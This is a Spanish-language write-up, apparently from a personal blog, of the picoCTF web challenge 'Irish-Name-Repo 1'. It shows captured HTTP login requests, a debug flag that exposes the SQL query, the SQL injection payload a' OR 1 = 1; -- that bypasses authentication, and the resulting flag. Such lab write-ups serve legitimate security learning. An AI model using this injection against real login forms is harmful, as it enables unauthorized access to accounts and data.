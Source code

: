 ```yaml
---
title: Irish-Name-Repo 1
date: 2025-07-24 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web, sql injection]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>Irish-Name-Repo 1
Author: Chris Hensler
Description
There is a website running at https://jupiter.challenges.picoctf.org/problem/33850/ (link) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
{: .prompt-tip }

Este reto nos muestra una web con las imágenes de varias personas famosas. En el menú aparece un enlace a la página de login. 

Toca capturar el tráfico con Zap para ver que se envía a la web. 

``` html
POST https://jupiter.challenges.picoctf.org/problem/33850/login.php HTTP/1.1
Host: jupiter.challenges.picoctf.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://jupiter.challenges.picoctf.org
Connection: keep-alive
Referer: https://jupiter.challenges.picoctf.org/problem/33850/login.html
Cookie: cf_clearance=1XojyBg86J9ZrlIHWugf6TgPWU7yp82jClJkkDqGeLE-1753303775-1.2.1.1-rH04zi_4QxFKrM8jX7vcVwTMAK9q6kmyyXMW4tjP6HN3EzwMNyDWyBL_FLYKw5uwVqsBDLZb7nIP28zqN0r4Q_tVen1JjyXYhYh8I9JkxvUKLaxYlKmASJnBdMcjWwFwrU4Na54MIM4ybQA1lfDHalfcWzkG2oaQ0i04PPiSXSochlQ4EbHujoGXlLAu4qVAdNqsrNJBxjmerm7y25x25GFv_ajQ3.JCF8Vwttw2aBM
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=admin&password=admin&debug=0
```
La primera pista es el parámetro debug=0 , vamos a ponerlo a 1.

``` html 
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

Login failed.
```
La respuesta en la web muestra la query, y un **Login failed** todo apunta a otra inyección SQL. 

Pruebo con la misma inyección que utilicé para otros retos [More SQLi](../picoctf-moresqli)
>a' OR 1 = 1; --

``` html
POST https://jupiter.challenges.picoctf.org/problem/33850/login.php HTTP/1.1
Host: jupiter.challenges.picoctf.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: https://jupiter.challenges.picoctf.org
Connection: keep-alive
Referer: https://jupiter.challenges.picoctf.org/problem/33850/login.html
Cookie: cf_clearance=1XojyBg86J9ZrlIHWugf6TgPWU7yp82jClJkkDqGeLE-1753303775-1.2.1.1-rH04zi_4QxFKrM8jX7vcVwTMAK9q6kmyyXMW4tjP6HN3EzwMNyDWyBL_FLYKw5uwVqsBDLZb7nIP28zqN0r4Q_tVen1JjyXYhYh8I9JkxvUKLaxYlKmASJnBdMcjWwFwrU4Na54MIM4ybQA1lfDHalfcWzkG2oaQ0i04PPiSXSochlQ4EbHujoGXlLAu4qVAdNqsrNJBxjmerm7y25x25GFv_ajQ3.JCF8Vwttw2aBM
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=admin&password=a%27+OR+1+%3D+1%3B+--&debug=1
```
Parece que el campo password se encodea automáticamente. 
Altero el campo debug para que muestre la query en la web y despauso la captura para que se lance el requeste con el parámetro debug=1. 

``` html
username: admin
password: a' OR 1 = 1; --
SQL query: SELECT * FROM users WHERE name='admin' AND password='a' OR 1 = 1; --'

Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```
flag: **picoCTF{s0m3_SQL_f8adf3fb}**